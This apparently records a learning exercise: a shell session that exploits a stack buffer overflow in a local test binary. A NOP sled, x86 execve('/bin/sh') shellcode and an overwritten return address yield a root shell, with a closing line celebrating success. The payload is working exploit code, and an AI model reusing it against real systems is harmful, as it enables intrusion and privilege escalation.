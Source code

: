 ```shell
$ ./a.out $(python -c 'print "\x90" * 60 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * (140 - 60 - 24)+ "\x2c\xd0\xff\xff"')
argv[1]: ������������������������������������������������������������1�Ph//shh/bin��PS�ᙰ
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,���
sh-4.2# 
```

成功啦！